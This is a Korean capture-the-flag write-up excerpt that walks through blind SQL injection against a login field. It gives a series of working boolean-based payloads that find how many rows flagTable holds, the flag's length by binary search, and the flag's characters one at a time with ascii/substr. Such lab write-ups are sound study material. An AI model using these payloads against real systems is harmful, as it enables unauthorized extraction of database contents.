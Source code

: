 ## 5. DATA
### 5.1. 개수 확인
1. **normaltic' and ((select count(flag) from flagTable) < 5) #**
-> O  
1. **normaltic' and ((select count(flag) from flagTable) < 3) #**
-> O  
1. **normaltic' and ((select count(flag) from flagTable) < 2) #**
-> O  
1. **normaltic' and ((select count(flag) from flagTable) = 1) #**
-> O  
-> 🥰 1개!!!

### 5.2. 글자수 확인
1. **normaltic' and ((char_length((select flag from flagTable))) > 10) #**
-> O  
1. **normaltic' and ((char_length((select flag from flagTable))) > 20) #**
-> O  
1. **normaltic' and ((char_length((select flag from flagTable))) > 30) #**
-> O  
1. **normaltic' and ((char_length((select flag from flagTable))) > 40) #**
-> X  
1. **normaltic' and ((char_length((select flag from flagTable))) > 35) #**
-> X  
1. **normaltic' and ((char_length((select flag from flagTable))) > 32) #**
-> O  
1. **normaltic' and ((char_length((select flag from flagTable))) > 34) #**
-> X  
1. **normaltic' and ((char_length((select flag from flagTable))) > 33) #**
-> X  
1. **normaltic' and ((char_length((select flag from flagTable))) = 33) #**
-> O  
-> 😇 33개요...??

### 5.3. 이름 확인
* 요것도 예측해서 반복 횟수를 줄일 수 있었다.
* 예측 결과가 그대로 flag랑 이어지기 때문에 생략하겠다.

---

1. **normaltic' and (ascii(substr(((select flag from flagTable)), 1, 1)) = 115) #**
-> O  
-> 찾은 글자: sxxxx xxxxx xxxxx xxxxx xxxxx xxxxx x  
1. **normaltic' and (ascii(substr(((select flag from flagTable)), 9, 1)) = 123) #**
-> O  
-> 찾은 글자: sxxxx xxx{x xxxxx xxxxx xxxxx xxxxx x  
1. **normaltic' and (ascii(substr(((select flag from flagTable)), 33, 1)) = 125) #**
-> O  
-> 찾은 글자: sxxxx xxx{x xxxxx xxxxx xxxxx xxxxx xx}  

